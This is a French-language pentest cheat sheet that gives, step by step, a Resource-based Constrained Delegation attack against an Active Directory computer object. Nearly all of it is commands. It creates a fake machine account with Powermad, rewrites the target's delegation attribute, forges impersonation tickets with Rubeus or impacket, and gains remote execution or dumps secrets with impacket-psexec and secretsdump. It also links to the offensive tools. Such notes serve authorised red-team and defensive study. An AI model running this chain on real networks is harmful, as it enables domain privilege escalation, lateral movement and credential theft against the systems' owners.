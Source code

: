```yaml
---
description: >-
  Je me demande si ajouter une machine au domaine avec un compte et réaliser
  directement les commandes powershell dessus ne fonctionne pas également.
---
```


# Resource-based Constrained Delegation

_**Objectif :** Devenir administrateur d'un objet ordinateur (\<MACHINE-CIBLE>)._

_**Note :** Cette attaque est possible si un utilisateur dispose_

* _Des droits "GenericAll" sur un objet ordinateur (\<MACHINE-CIBLE>)._
* _Du droit "CanPSRemote" sur une machine du domaine (MACHINE-DOMAINE)._

#### Connexion à une machine du domaine

```
$ evil-winrm -u "<USER>" -p '<PASSWORD' -i <IP-MACHINE-DOMAINE> -s /home/kali/tools/
#>PowerView.ps1
#>Powermad.ps1
#>upload Rubeus.exe
```

#### Conditions

```
#>Get-DomainObject -Identity "dc=domain,dc=com" -Domain domain.com -> Suppérieur à 0
#>Get-DomainController -> Suppérieur ou égale à 2012
#>Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity -> Vide
```

#### Réalisation de l'attaque

```
#### Création d'une fausse machine sur le domaine
#>New-MachineAccount -MachineAccount <FAKE-MACHINE> -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
#>Get-DomainComputer <FAKE-MACHINE> -> Récupération du SID

#### Indiquer à <MACHINE-CIBLE> qu'elle doit faire confiance au compte <FAKE-MACHINE>
#>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SID-FAKE-MACHINE>)"
#>$SDBytes = New-Object byte[] ($SD.BinaryLength)
#>$SD.GetBinaryForm($SDBytes, 0)
#>Get-DomainComputer <MACHINE-CIBLE> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

#### Génération des tickets Kerberos et RCE

Windows :&#x20;

```
#>./Rubeus.exe hash /password:123456 /user:<FAKE-MACHINE> /domain:<DOMAINE>
#>./Rubeus.exe s4u /user:<FAKE-MACHINE> /rc4:<RC4-PASSWORD> /impersonateuser:<ADMIN-MACHINE-CIBLE> /msdsspn:cifs/<MACHINE-CIBLE>.<DOMAINE> /domain:<DOMAINE> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt
```

Linux :&#x20;

```
$ impacekt-getST -spn "cifs/<MACHINE-CIBLE>.<DOMAINE>" -impersonate <ADMIN-MACHINE-CIBLE> -dc-ip <IP-DC> '<DOMAINE>/<FAKE-MACHINE>$:123456'
$ export KRB5CCNAME=<ADMIN-MACHINE-CIBLE>.ccache
$ klist
$ impacket-psexec -k ['<DOMAINE>/<USER>@]<MACHINE-CIBLE>.<DOMAINE> or impacket-secretsdump -k <MACHINE-CIBLE>.<DOMAINE>
```

[psexec.exe](https://live.sysinternals.com/)

[powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

[powemad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)

[Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
